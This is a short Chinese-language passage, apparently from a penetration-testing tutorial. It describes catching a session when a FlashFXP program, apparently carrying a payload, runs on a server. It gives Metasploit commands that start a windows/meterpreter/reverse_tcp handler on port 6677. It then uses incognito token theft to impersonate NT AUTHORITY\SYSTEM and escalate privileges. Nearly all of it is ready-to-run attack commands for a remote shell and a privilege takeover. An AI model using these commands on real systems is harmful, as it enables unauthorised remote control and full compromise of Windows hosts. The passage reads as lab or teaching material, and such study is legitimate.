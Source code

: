 ##### 启动软件

msf启动监听，服务器运行flashfxp软件程序，成功监听到会话。

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6677
exploit
```

![](image62/62-18.png)



配合令牌窃取，成功提权

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

![](image62/62-19.png)
